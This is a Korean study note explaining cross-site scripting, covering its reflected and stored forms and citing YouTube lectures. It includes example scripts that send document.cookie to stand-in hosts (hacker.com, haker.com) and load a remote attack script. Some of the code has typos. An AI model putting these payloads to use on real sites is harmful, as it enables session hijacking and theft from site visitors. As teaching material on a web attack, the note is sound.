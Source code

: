 ```yaml
---
noteId: "34c33760ba1211edbf4f091acf1f0ea3"
tags: []

---
```


# Croxx Site Scripting (XSS)

JavaScript의 취약성을 이용한 공격
클라이언트(사용자) 쪽의 웹 브라우저 특성을 이용한 공격하는 기법입니다. 

웹 브라우저는 웹페이지에 있는 스크립트의 정확한 출처를 알 수 없기 때문에 그대로 실행할 수 밖에 없습니다. 이런 취약점을 이용한 공격이 XSS 입니다.

현대의 모던 브라우저는 대부분 잘 알려진 공격에 대한 대응책을 지원하고 있습니다. 하지만 기본적인 공격 원리를 이해하는 것도 중요합니다.

- Javascript 소개
  - 웹 페이지의 동적 기능 구현을 담당
  - 작성 예시

  ```
    <!-- 사용자 컴퓨터에 저장된 쿠키 정보 취득 -->
    <script>
      alert('공격이 시작됩니다^^')
      document.loaction = 'http://hacker.com/cookie?' + document.cookie
    <script>

    <!-- 웹 브라우저를 실행하면 자동으로 악성 코드를 실행 -->
    <script src='http://hacker.com/attack.js?'><script>
  ```

## Reflcted XSS

<img src='../imgs/XSS_reflected_scenario_06.png' width='500px'>

이미지 출처: [[화이트해커][웹모의해킹] 49강. 크로스사이트스크립팅(XSS) 공격이란?](https://youtu.be/jvS45jdz1ao)

## Stored XSS

서버의 게시판과 같이 글을 남길 수 있는 영역에 JavaScript를 남겨 놓으면 (저장하면, 즉 store 하면), 아무것도 모르는 사용자가 방문했을 경우 JavaScript가 자동으로 실행되도록 하는 공격입니다.

예를 들면 게시판에 다음과 같은 JavaScript를 남겨 놓을 수 있습니다.

```
<script>
    let xmlHttp = new XMLHttpRequest();
    const url = "http://haker.com?victimCookie=" + document.cookie;
    xmlHttp.open('GET', url);
    xmlHttp.send();
</script>
```

실행 순서는 다음과 같습니다.

<img src='../imgs/XSS_stored_scenario_04.png' width='500px'>

위 그림에서 4번까지 공격이 진행되면 이후 공격은 Reflected XSS 공격과 마찬가지로 해당 쿠키 정보를 이용하여 악의적 행위를 진행합니다.

이미지 출처: [[화이트해커][웹모의해킹] 49강. 크로스사이트스크립팅(XSS) 공격이란?](https://youtu.be/jvS45jdz1ao)


## References

|Title|Author|Source|Link|
|:--|:--|:--|:--|
|[화이트해커][웹모의해킹] 49강. 크로스사이트스크립팅(XSS) 공격이란?|버그잡는 해커|Youtube|[link](https://youtu.be/jvS45jdz1ao)|
|크로스 사이트 스크립팅, XSS|코드없는 프로그래밍|Youtube|[link](https://youtu.be/LfI6TAchgT4)|